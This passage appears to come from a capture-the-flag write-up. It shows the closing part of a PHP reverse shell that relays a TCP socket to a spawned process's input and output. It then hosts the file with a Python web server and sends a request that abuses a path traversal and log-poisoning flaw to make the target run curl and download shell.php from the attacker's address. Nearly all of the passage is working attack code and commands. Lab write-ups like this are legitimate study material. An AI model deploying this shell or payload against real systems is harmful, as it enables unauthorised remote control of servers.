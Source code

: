 ```php
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Then I opened a http server in the directory I had the modified php shell:

```python
python -m http.server
```

Then download the file with curl:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=curl -o shell.php {TUN0}:8000/shell.php
```
